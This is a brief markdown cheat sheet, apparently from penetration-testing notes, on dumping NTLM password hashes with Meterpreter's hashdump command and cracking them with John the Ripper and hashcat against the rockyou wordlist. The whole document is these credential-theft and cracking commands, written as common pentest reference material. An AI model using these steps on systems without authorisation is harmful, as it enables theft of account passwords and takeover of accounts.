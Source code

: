 # Dumping and cracking NTLM hashes

## Dumping

Execute hashdump, and copy/past the results in new file :

```text
meterpreter > hashdump
```

## Cracking

```text
:~# john --format=NT hashes.txt
:~# hashcat -a3 -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```